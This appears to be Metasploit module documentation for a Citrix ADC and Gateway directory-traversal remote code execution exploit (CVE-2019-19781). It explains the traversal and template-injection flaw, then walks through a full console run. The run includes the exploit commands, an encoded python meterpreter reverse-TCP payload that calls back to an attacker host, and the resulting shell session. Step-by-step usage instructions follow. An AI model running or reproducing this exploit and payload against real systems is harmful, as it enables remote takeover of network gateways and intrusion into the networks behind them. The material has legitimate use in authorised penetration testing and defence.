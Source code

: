 ## Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. They allow Directory Traversal.

In resume, when the NSPPE receives a request for `GET /vpn/index.html`, it is supposed to send this request to Apache which processes it. However, by making the request `GET /vpn/../vpns/` (which is not sanitized), Apache transforms the route into `GET /vpns/` and processes this last request normally.

This `/vpns/` directory is interesting because it contains Perl code. The script `newbm.pl` creates an array containing information from several parameters, then calls the filewrite function, which writes the content to an XML file on disk.

A malicious attacker can execute arbitrary commands remotely by creating a corrupted xml file who use `Perl Template Toolkit` in part of payload.

```
msf5 exploit(unix/webapp/citrix_dir_trasversal_rce) > set rhosts [IP]
rhosts => XXX.XXX.XXX.XXX
msf5 exploit(unix/webapp/citrix_dir_trasversal_rce) > set lhost [IP]
lhost => XXX.XXX.XXX.XXX
msf5 exploit(unix/webapp/citrix_dir_trasversal_rce) > set verbose true
verbose => true
msf5 exploit(unix/webapp/citrix_dir_trasversal_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444 
[+] The target appears to be vulnerable.
[*] Sending python/meterpreter/reverse_tcp command payload
[*] Generated command payload: import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJ1hYWC5YWFguWFhYLlhYWCcsNDQ0NCkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoZCx7J3MnOnN9KQo=')))
[*] Bookmark Added.
[*] Sending stage (53755 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:42881) at 2020-01-13 12:02:41 +0400
[+] Deleted /var/tmp/netscaler/portal/templates/hBgGdPlkypbfZMvq.xml.ttc2
[+] Deleted /netscaler/portal/templates/hBgGdPlkypbfZMvq.xml

meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/unix/webapp/citrix_dir_trasversal_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Python (meterpreter)
  1   Unix (remote shell)
  2   Unix (command-line)
```

## Advanced options

**ForceExploit**

Override check result.

## References

  1. <https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/>
  2. <https://www.exploit-db.com/exploits/47901>
  3. <https://www.exploit-db.com/exploits/47902>
